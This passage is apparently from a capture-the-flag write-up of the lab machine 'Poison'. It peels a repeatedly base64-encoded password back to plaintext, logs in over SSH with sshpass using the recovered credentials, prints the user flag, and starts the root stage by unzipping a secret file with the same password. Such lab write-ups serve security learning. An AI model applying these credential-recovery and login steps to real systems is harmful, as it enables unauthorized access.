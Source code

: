 	Vm0wd2QyUXlWa1pPVldScFVtMVNXRll3Wkc5V2JGbDNXa1JTVjFac2JETlhhMUpUVmpGS2RHVkdX bFpOYWtFeFZtcEtTMU5IVmtWUgpiVVpYVm14c00xZFdaRFJUTWsxNFdraFdhUXBTYlZKUFdXMTRS MDB4V25Sa1JscHNVbXhzTlZaSGRITmhVWEJUWWxaS2QxWnRkR0ZaClZsWlhXa1prWVZKR1NtRldh a0Y0VGtaYVNFNVdaR2hWV0VKVVdXeGFTMVpXV2tkVmEzUnBDazFyYkRSV01qVkxWMnN3ZVdGR1Vs cGkKUm5Cb1dsZDRWMlJGTlZkYVIyaFNWMFZLVlZkWGVHdGlNbEp6V2taa1ZtRXpVbk5EYlVwWFYy dG9WMDFxVmt4WFZscExVakZPYzFWcwpWbGNLWWtoQmVsWnRjRWRWTVZsNFYyNU9ZVkl5YUZkV01G WkxWbFphZEUxVVFtdE5hMncwVjJ0b1QxbFdUa2hWYkU1RVlsVlpNbFp0CmVHOVdiVXBJWVVod1Yw MXFSbGhhUldSWFVqRk9jd3BhUm1OTFdXeFZkMlF4V2tWU2JHUlZUV3R3ZWxWWGVGZFViRXBaVkd0 NFJGcDYKTURsRFp6MDlDZz09Cg==
	Vm0wd2QyVkZOVWRpUm1SWFYwZG9WbFl3WkRSV1ZsbDNXa1JTVjFKdGVGWlZNakExVmpKS1NHVkVR bUZXVmxsM1dWZDRTMk14WkhWaQpSbVJPWW14R00xWnRkRlpsUmxsNVZHdHNhUXBTYlZKd1ZtdGFZ VlZXWkZkYVJGSmFWakF4TkZaSE5WZGhVWEJUWWxaS1ZWWkdVa3RpCk1rbDRWMjVLV2sweWFGUlpi RnBoWld4V2RFNVdaR2hSV0VKVVdXeGtiMlJzWkZkVmEzUnNDbUpXV2toV01qVkxXVlpLUjFOc1Vs VlcKYkhBelZtcEdVMVl4V25OYVIyaFdWMFZLVlZadE1UQmtNa2w0V2toT1lWTkhVbE5EYlVZMlZt eG9WbUpIYUhwV01qRlhaRWRXUjFOcwpaRmNLWWxVd2QxWkVSbGRVTWtwelVXeFdUbEpZVGt4RFp6 MDlDZz09Cg==
	Vm0wd2VFNUdiRmRXV0doVlYwZDRWVll3WkRSV1JteFZVMjA1VjJKSGVEQmFWVll3WVd4S2MxZHVi RmROYmxGM1ZtdFZlRll5VGtsaQpSbVJwVmtaYVVWZFdaRFJaVjAxNFZHNVdhUXBTYlZKVVZGUkti Mkl4V25KWk0yaFRZbFphZWxWdE5WZGhRWEJUWWxkb2RsZFdVa3RsCmJWWkhWMjVLWVZKR1NsUlVW bHAzVmpGU1YxWnNaR2hWV0VKVVZtMTBkMkl4WkhOYVNHUlNDbUY2VmxoVmJHaHpWMjFXZEdWR1Ns ZFcKYlUwd1ZERldUMkpzUWxWTlJYTkxDZz09Cg==
	Vm0weE5GbFdWWGhVV0d4VVYwZDRWRmxVU205V2JHeDBaVVYwYWxKc1dubFdNblF3VmtVeFYyTkli RmRpVkZaUVdWZDRZV014VG5WaQpSbVJUVFRKb2IxWnJZM2hTYlZaelVtNVdhQXBTYldodldWUktl bVZHV25KYVJGSlRUVlp3VjFSV1ZsZGhVWEJUVm10d2IxZHNaSGRSCmF6VlhVbGhzV21WdGVGSldW bU0wVDFWT2JsQlVNRXNLCg==
	Vm0xNFlWVXhUWGxUV0d4VFlUSm9WbGx0ZUV0alJsWnlWMnQwVkUxV2NIbFdiVFZQWVd4YWMxTnVi RmRTTTJob1ZrY3hSbVZzUm5WaApSbWhvWVRKemVGWnJaRFJTTVZwV1RWVldhUXBTVmtwb1dsZHdR azVXUlhsWmVteFJWVmM0T1VOblBUMEsK
	Vm14YVUxTXlTWGxTYTJoVllteEtjRlZyV2t0VE1WcHlWbTVPYWxac1NubFdSM2hoVkcxRmVsRnVh RmhoYTJzeFZrZDRSMVpWTVVWaQpSVkpoWldwQk5WRXlZemxRVVc4OUNnPT0K
	VmxaU1MySXlSa2hVYmxKcFVrWktTMVpyVm5OalZsSnlWR3hhVG1FelFuaFhha2sxVkd4R1ZVMUVi RVJhZWpBNVEyYzlQUW89Cg==
	VlZSS2IyRkhUblJpUkZKS1ZrVnNjVlJyVGxaTmEzQnhXakk1VGxGVU1EbERaejA5Q2c9PQo=
	VVRKb2FHTnRiRFJKVkVscVRrTlZNa3BxWjI5TlFUMDlDZz09Cg==
	UTJoaGNtbDRJVElqTkNVMkpqZ29NQT09Cg==
	Q2hhcml4ITIjNCU2JjgoMA==
	Charix!2#4%6&8(0
	```
	- `charix:Charix!2#4%6&8(0`
3.  SSH w/  `charix:Charix!2#4%6&8(0`
	```
	┌──(root💀kali)-[~/htb/poison]
	└─# sshpass -p 'Charix!2#4%6&8(0' ssh charix@$ip
	```
4. User Flag
	```
	eaacdfb2d141b72a589233063604209c
	```
	![]({{ page.img_path }}Pasted%20image%2020220831063308.png)


## Root - Via VNC running as root
1. Proceed to `charix` home directory
	```
	charix@Poison:~ % ls -l
	total 8
	-rw-r-----  1 root  charix  166 Mar 19  2018 secret.zip
	-rw-r-----  1 root  charix   33 Mar 19  2018 user.txt
	```
2. Transfer file to `kali`
3. Unzip w/ `charix` password, `Charix!2#4%6&8(0`
	```
	┌──(root💀kali)-[~/htb/poison/10.10.10.84/loot]
	└─# unzip secret.zip 
	Archive:  secret.zip
	[secret.zip] secret password: 
	 extracting: secret   
	   